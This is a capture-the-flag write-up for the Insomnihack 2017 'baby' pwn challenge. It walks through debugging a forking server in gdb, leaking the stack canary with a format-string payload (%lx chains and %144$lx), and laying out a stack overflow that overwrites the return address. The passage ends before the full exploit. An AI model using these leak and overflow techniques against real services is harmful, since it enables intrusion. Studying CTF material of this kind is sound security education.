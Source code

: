 # Insomnihack 2017 pwn 50 baby

So we are given a libc file and a binary. Let's take a look at the binary:

```
$	file baby 
baby: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, not stripped
$	pwn checksec baby 
[*] '/Hackery/insomnihack2017/baby/baby'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

So we can see that it is a `64` bit elf, with a Stack Canary, Non Executable Stack, PIE, and RELRO. This binary is a server that listens on port `1337` spawns child processes. This becomes evident when we run the binary, and nothing appears to happen, along with code like this from the function `main`:

```
    fd = socket(2, 1, 6);
    if ( fd == -1 )
    {
      perror("socket");
      result = 1;
    }
    else
    {
      optval = 1;
      if ( setsockopt(fd, 1, 2, &optval, 4u) )
      {
        perror("setsockopt");
        result = 1;
      }
      else
      {
        addr.sa_family = 2;
        *(_DWORD *)&addr.sa_data[2] = htonl(0);
        *(_WORD *)&addr.sa_data[0] = htons(0x539u);
        if ( bind(fd, &addr, 0x10u) )
        {
          perror("bind");
          result = 1;
        }
```

in addition to that, we can see that it a new process is Listening on port `1337` (dead give away):

```
netstat -planet | grep 1337
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:1337            0.0.0.0:*               LISTEN      0          152974      -  
```

So when we connect to the server, we see this:

```
$	nc 127.0.0.1 1337
Welcome to baby's first pwn.
Pick your favorite vuln : 
   1. Stack overflow
   2. Format string
   3. Heap Overflow
   4. Exit
Your choice > 
```

So we're given the choice between three seperate types of bugs.

#### Format String

So the first step is we are going to use the format string bug to get an infoleak. To start off with, we will need to debug the child process (since that is where the code we interface with runs). Due to the fact that it is a parent which spawns child processes, the process for debugging is a little bit different:

first launch the binary in gdb, set the values for `follow-fork-mode` and `detach-on-fork` to allow for debugging child processes, and run it:
```
$	sudo gdb ./baby 

.	.	.

gdb-peda$ set follow-fork-mode child
gdb-peda$ set detach-on-fork off
gdb-peda$ r
Starting program: /Hackery/insomnihack2017/baby/baby 
```

we can see here that there are no child processes:
```
gdb-peda$ info inferiors
  Num  Description       Executable        
* 1    process 12814     /Hackery/insomnihack2017/baby/baby 
gdb-peda$ c
Continuing.
```

next we will connect to the server:
```
$	 nc 127.0.0.1 1337
Welcome to baby's first pwn.
Pick your favorite vuln : 
   1. Stack overflow
   2. Format string
   3. Heap Overflow
   4. Exit
Your choice > 
```

we can see here that there is a child process. We will switch to it, and set a breakpoint for `dofmt+0x7f`:
```
[New process 12865]

.	.	.

gdb-peda$ info inferiors
  Num  Description       Executable        
  1    <null>            /Hackery/insomnihack2017/baby/baby 
* 2    process 12865     /Hackery/insomnihack2017/baby/baby 
gdb-peda$ set inferior 2
gdb-peda$ c
Continuing.
```

Now we will execute a format string attack to see what we can see what we can leak from the stack. We will be using the format string `%lx`, which will leak 8 byte values off of the stack (since it is a `64` bit binary). I just used python to generate a string with 150 `%lx.`:

```
Your format > %lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.
7fffffffe0f0.7ffff7af4154.0.0.0.400000000.0.25900000000.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.a.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.8e5.7ffff7b99377.7fffffffe480.5af2827ced9c5d00.0.0.ffffffffffffff80.400.7ffff7dd1ee0.1.7ffff7fd8440.7ffff7ac7a5a.2.555555555f09.555555758260.7fffffffe480.7fffffffe478.0.ffffffb0.7fffffffe4d0.ffffffffffffffb0.555555759970.7ffff77de090.5af2827ced9c5d00.0.400.7fffffffe530.5555555552e7.7ffff7dd1ee0.8e.555555555e30.555555555255.8e.2.7fffffffe520.45555535c.2.5af2827ced9c5d00.7fffffffe530.5555555559cf.555555554ff0.455555f09.a32.5af2827ced9c5d00.7fffffffe590.555555555bf0.7fffffffe678.100f0b5ff.1.155555c75.
``` 

and when we hit the breakpoint in gdb, we can see what the stack canary is. We know that it is at `rbp-0x8` for two seperate reasons. First off, this is the typical place the stack canary is at because it is the last value before we hit `rbp`. The second, is that in IDA we can see that the stack canary is at `rbp-0x8`:

```
__int64 __fastcall dofmt(int a1)
{
  int bytesRead; // [sp+1Ch] [bp-414h]@2
  char input[1032]; // [sp+20h] [bp-410h]@2
  __int64 canary; // [sp+428h] [bp-8h]@1
```

so we can just see the canary by looking at `rbp-0x8`:

```
Thread 2.1 "baby" hit Breakpoint 1, 0x0000555555555547 in dofmt ()
gdb-peda$ x/g $rbp-0x8
0x7fffffffe4f8:	0x5af2827ced9c5d00
```

So here we can see that the stack canary is `0x5af2827ced9c5d00`. We can see that we got this value from the infoleak, towards the end. So we can see what exact position it is at by issuing another format string:

```
Your format > %140$lx.%141$lx.%142$lx.%143$lx.%144$lx.%145$lx.%146$lx.%147$lx.%148$lx.%149$lx
5555555559cf.555555554ff0.455555f09.a32.5af2827ced9c5d00.7fffffffe590.555555555bf0.7fffffffe678.100f0b5ff.1
```

here we can see that the loation of the stack canary is at the offset `144`, so we can leak the stack canary with the format string `%144$lx`.


#### Buffer Overflow

This is the code for the Stack Overflow bug:

```
__int64 __fastcall dostack(int conn)
{
  int bytesRead; // ST1C_4@1
  __int64 result; // rax@1
  __int64 stackCheck; // rcx@1
  char buf; // [sp+20h] [bp-410h]@1
  __int64 stackCanary; // [sp+428h] [bp-8h]@1

  stackCanary = *MK_FP(__FS__, 40LL);
  sendstr((unsigned int)conn, "How much bytes you want to send ? ");
  recv(conn, &buf, 0xAuLL, 0);
  bytesRead = atoi(&buf);
  recvlen(conn, (__int64)&buf, bytesRead);
  sendstr((unsigned int)conn, "Good luck !\n");
  result = 0LL;
  stackCheck = *MK_FP(__FS__, 40LL) ^ stackCanary;
  return result;
```

We can see that the bug is it allows us to decide how much data get's scanned into `buf`. The space `buf` has is `0x408` or `1032` bytes. Immediately following that, we will reach the stack canary, so we will need to write over the stack canary with itself, otherwise it will detect stack smashing, and we won't get code exec. After that we will just have to write over `rbp` with `8` bytes so we will get to `rbp+0x8`, which with this architecture is where the return address is stored. So after we write `1032` bytes, followed by the stack canary, followed by `8` more bytes, we will be able to write over the return address and get code execution.

#### Additional Infoleaks

Now since  `PIE` (along with the other binary protections) is enabled, we will need an additional infoleak in order to know what address we need to jump t. 
